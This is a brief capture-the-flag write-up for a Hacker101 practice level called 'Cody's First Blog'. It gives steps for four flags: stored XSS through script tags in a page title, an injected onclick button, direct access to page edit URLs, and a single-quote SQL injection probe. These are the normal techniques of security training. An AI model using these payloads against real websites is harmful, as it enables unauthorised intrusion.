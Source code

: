 # Cody's First Blog

## Flag 1
https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/6 -> flag
![](./images/1.png)
## Flag 2
create page and use XSS payload on title
<script>alert("xss")</script> 
when going back home, get flag

![](./images/2.png)
## Flag 3
on page 2, edit -> https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/2

change the button to this:
<button onclick=alert("pwned")>Some button</button>

popup with alert appears, now go to source code and flag is there
![](./images/3.png)

## Flag 4
add a single quote on the edit url
https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/2'

![](./images/4.png)